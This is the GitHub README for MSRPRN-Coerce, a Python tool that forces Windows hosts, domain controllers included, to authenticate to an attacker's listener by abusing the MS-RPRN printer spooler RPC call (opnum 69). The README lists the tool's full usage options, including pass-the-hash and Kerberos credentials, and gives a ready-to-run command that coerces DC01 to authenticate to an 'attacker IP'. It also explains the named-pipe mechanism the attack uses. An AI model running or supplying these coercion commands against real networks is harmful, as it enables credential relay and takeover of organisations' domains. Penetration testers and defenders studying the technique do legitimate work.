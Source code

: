 # MSRPRN-Coerce

<p align="center">
    A python script to force authentification using MS-RPRN RemoteFindFirstPrinterChangeNotificationEx function (opnum 69).
    <br>
    <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/MSRPRN-Coerce">
    <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
    <a href="https://www.youtube.com/channel/UCF_x5O7CSfr82AfNVTKOv_A?sub_confirmation=1" title="Subscribe"><img alt="YouTube Channel Subscribers" src="https://img.shields.io/youtube/channel/subscribers/UCF_x5O7CSfr82AfNVTKOv_A?style=social"></a
    <br>
</p>

![](./.github/banner.png)

## Features

**Requires**: A valid username and password on the domain.

 - [x] Force authentification using MS-RPRN `RemoteFindFirstPrinterChangeNotificationEx` function (opnum 69).
 - [x] 🐍 Python 3 and Python 2 compatibility.
 - [x] Targets either a single IP or a range of IPs.

## Usage

```
$ ./MS-RPRN-Coerce.py -h
MS-RPRN-Coerce v1.1 - by @podalirius_

usage: e.py [-h] [-v] [--dc-ip ip address] [-d DOMAIN] [-u USER] [--target-ip ip address] [--no-pass | -p PASSWORD | -H [LMHASH:]NTHASH | --aes-key hex key] [-k]
            listener target

Force authentification using MS-RPRN RemoteFindFirstPrinterChangeNotificationEx function (opnum 69).

positional arguments:
  listener              IP address or hostname of listener.
  target                IP address or hostname of target.

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Verbose mode. (default: False)

authentication & connection:
  --dc-ip ip address    IP Address of the domain controller or KDC (Key Distribution Center) for Kerberos. If omitted it will use the domain part (FQDN) specified in the
                        identity parameter
  -d DOMAIN, --domain DOMAIN
                        (FQDN) domain to authenticate to
  -u USER, --user USER  user to authenticate with
  --target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name or
                        Kerberos name and you cannot resolve it

  --no-pass             Don't ask for password (useful for -k)
  -p PASSWORD, --password PASSWORD
                        Password to authenticate with
  -H [LMHASH:]NTHASH, --hashes [LMHASH:]NTHASH
                        NT/LM hashes, format is LMhash:NThash
  --aes-key hex key     AES key to use for Kerberos Authentication (128 or 256 bits)
  -k, --kerberos        Use Kerberos authentication. Grabs credentials from .ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it
                        will use the ones specified in the command line
```

## Example

To force `DC01.LAB.local` to authenticate over SMB to your attacker IP `192.168.2.51`:

```
./MS-RPRN-Coerce.py 192.168.2.51 DC01.LAB.local -u user1 -p 'Lab123!'
```

## Technical detail

This attack performs an RPC call of the `RpcRemoteFindFirstPrinterChangeNotificationEx` function (opnum 69) in the SMB named pipe `\pipe\spoolss` through the `IPC$` share to force authentication from a target machine to another.

## Demo

https://user-images.githubusercontent.com/79218792/155523928-6614ba1f-13c0-4bfc-8f42-05ef78c1e905.mp4

## Contributing

Pull requests are welcome. Feel free to open an issue if you want to add other features.

